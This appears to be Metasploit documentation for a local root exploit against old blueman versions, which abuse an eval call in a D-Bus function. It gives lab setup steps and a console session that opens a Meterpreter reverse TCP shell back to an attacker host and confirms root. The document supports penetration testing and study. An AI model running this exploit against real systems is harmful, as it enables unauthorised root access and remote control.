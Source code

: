 ## Description

  This module attempts to gain root privileges by exploiting a Python
  code injection vulnerability in blueman versions prior to 2.0.3.

  The `org.blueman.Mechanism.EnableNetwork` D-Bus interface exposes the
  `set_dhcp_handler` function which uses user input in a call to `eval`,
  without sanitization, resulting in arbitrary code execution as root.

  This module has been tested successfully with blueman version 1.23
  on Debian 8 Jessie (x64).


## Vulnerable Application

  This module has been tested successfully with:

  * blueman version 1.23 on Debian 8 Jessie (x64)

  Old versions of the `blueman` package are available in [Debian snapshots](https://snapshot.debian.org/).

  The following `/etc/apt/sources.list` configuration will allow a vulnerable
  version of the `blueman` package to be installed:
 
  ```
  deb [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  deb-src [check-valid-until=no] http://snapshot.debian.org/archive/debian/20140827T042507Z/ jessie main
  ```

  Update the package sources with `apt-get -o Acquire::Check-Valid-Until=false update`

  The package can be installed with `apt-get install blueman`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc 
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/blueman_set_dhcp_handler_dbus_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DKJWL0TG7sm0M5' (249 bytes) ...
  [*] Executing payload...
  [*] Sending stage (861348 bytes) to 172.16.191.156
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.156:58863) at 2018-12-24 02:44:25 -0500
  [+] Deleted /tmp/.DKJWL0TG7sm0M5

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-8-1-x64.local
  OS           : Debian 8.1 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

